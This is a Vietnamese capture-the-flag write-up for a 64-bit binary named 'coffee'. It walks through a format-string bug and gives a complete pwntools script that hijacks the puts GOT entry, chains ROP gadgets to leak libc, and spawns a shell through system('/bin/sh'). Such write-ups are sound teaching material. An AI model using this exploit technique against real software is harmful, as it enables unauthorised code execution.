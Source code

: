# Coffee
/*
cre: https://ptr-yudai.hatenablog.com/entry/2021/10/03/225325
*/

# Reverse

file 64bit, dynamic linked và not stripped

```sh
coffee: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=f06390409bc7bfd78cb08726dd89b4cd04d38f1a, for GNU/Linux 3.2.0, not stripped
```
checksec
```sh
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

Source code

```c
#include <stdio.h>

int x = 0xc0ffee;
int main(void) {
    char buf[160];
    scanf("%159s", buf);
    if (x == 0xc0ffee) {
        printf(buf);
        x = 0;
    }
    puts("bye");
}
```

## Tìm lỗi

Lỗi format string bên trong hàm if(), nhưng có 1 biến X nằm ở phân vùng BSS sẽ cản trở việc khai thác lỗi. 

# Exploit

### Khi hàm puts thực thi nó sẽ sử dụng 1 số khung trên stack, kết hợp lỗi FS, để thay đổi giá trị trong puts_got.

Tìm gadget cho việc thực thi ROP và leak libc. Mở trong IDA sẽ thấy gadget này
```sh
.text:000000000040128A                 pop     rbx
.text:000000000040128B                 pop     rbp
.text:000000000040128C                 pop     r12
.text:000000000040128E                 pop     r13
.text:0000000000401290                 pop     r14
.text:0000000000401292                 pop     r15
.text:0000000000401294                 retn
```
rop_pop_rdi_ret, ret,...

Sau khi leak libc thì việc tiếp theo là phải gán lại cho biến X = 0xc0ffee, thực hiện chung trong phần ROP lần này luôn.

Gadget cần cho việc này là gadget
`0x40117c (__do_global_dtors_aux+28) ◂— add    dword ptr [rbp - 0x3d], ebx` 
nằm ở __do_global_dtors_aux+28. 

Sắp xếp thì rbp = địa chỉ biến X + 0x3d, ebx = 0xc0ffee.

## file exploit

```sh
from pwn import * 
s = process(["stdbuf", "-i0", "-o0", "./coffee"])
elf = ELF("./coffee")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
raw_input("debug")

n = 6
got_puts = elf.got.puts
main = elf.symbols.main
got_print = elf.got.printf

rop_pop_rdi = 0x00401293
rop_pop_rbx_rbp_r12_r13_r14_r15 = 0x40128a
rop_add_prbpM3Dh_ebx = 0x0040117c

payload = '%' + str(0x128a) + "d%10$hn"
payload = payload.ljust(32,"\x00")
payload += p64(got_puts)
payload += p64(rop_pop_rdi+1) #ret
payload += p64(rop_pop_rdi)
payload += p64(elf.got['printf'])
payload += p64(elf.plt['printf'])
payload += p64(rop_pop_rbx_rbp_r12_r13_r14_r15)
payload += p64(0xc0ffee)
payload += p64(0x404048+0x3d)
payload += p64(2)
payload += p64(3)
payload += p64(4)
payload += p64(5)
payload += p64(rop_add_prbpM3Dh_ebx)
payload += p64(rop_pop_rdi+1)
payload += p64(elf.sym.main)


s.sendline(payload)
s.recvuntil("1")
leak = s.recv()
printf_leak = u64(leak.ljust(8,"\x00"))
libc.address = printf_leak - libc.symbols['printf']
system =  libc.symbols['system']
binsh = next(libc.search("/bin/sh"))
print ">  " + hex(printf_leak)
print "libc>  " + hex(libc.address)

payload2 = "A" * 40
payload2 += p64(rop_pop_rdi+1)
payload2 += p64(rop_pop_rdi)
payload2 += p64(binsh)
payload2 += p64(system)

s.sendline(payload2)

s.interactive()


``` 
